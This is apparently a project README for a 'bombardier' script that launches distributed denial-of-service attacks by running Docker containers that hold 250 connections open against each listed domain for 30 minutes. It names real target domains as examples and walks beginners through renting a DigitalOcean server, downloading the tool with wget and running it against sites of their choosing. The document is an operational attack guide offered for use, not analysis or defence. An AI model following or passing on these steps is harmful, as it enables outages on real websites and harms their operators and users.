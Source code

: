 # Bombardier script using Docker

This script parses domains, receive their IP in DNS and then run multiple Docker containers that execute site bombarding (DDoS). Fill domains.txt with domains you want to bombard. The default setting is 250 open connections for 30 mins.

## Docker Installation

https://docs.docker.com/engine/install/ubuntu/

## Domains list to be attacked (IMPORTANT!)

The source file must contain only domains, one per row.
[What is domain?](https://www.cloudflare.com/learning/dns/glossary/what-is-a-domain-name/)

#### Wrong domain examples:
```
structure.mil.ru/structure/uc/info.htm
https://structure.mil.ru
https://structure.mil.ru/structure
https://structure.mil.ru/
structure.mil.ru/
https://www.cloudflare.com/learning/
https://www.cloudflare.com
```
#### Correct domain examples:
```
structure.mil.ru
www.cloudflare.com
cloudflare.com
```
## Usage

Using default domains file (domains.txt)

```shell
chmod +x script.sh
./script.sh
```

Using your own domains file (e.g. my_domains_file.txt)

```shell
chmod +x script.sh
./script.sh my_domains_file.txt
```

### INSERT DOMAINS WITHOUT PROTOCOL (e.g. google.com instead of https://google.com)

## For beginners

1. Register or login on
   https://digitalocean.com

2. Open https://cloud.digitalocean.com/droplets/new

3. Choose the same settings as on the images below
   ![docker image](do_1.png)
   ![base plan](do_2.png)
   ![region](do_3.png)
   ![password](do_4.png)

4. Click 'Create droplet' in the bottom

5. After droplet was created, open details and click 'Access' on the left sidebar

6. Click 'Launch Droplet Console'
   ![access](do_5.png)

7. (optional) Paste sites you're going to bombard to the file domains.txt (each domain on the separate line)

8. Paste these commands to the opened terminal window
   ![console](do_6.png)

```shell
apt install -y unzip
```

```shell
wget https://codeload.github.com/capcatd/bombardier/zip/refs/heads/main >> main.zip && unzip main && cd bombardier-main
```

```shell
chmod +x script.sh
```

```shell
./script.sh
```

9. After everythins is done you should see similar message
   ![final](do_7.png)
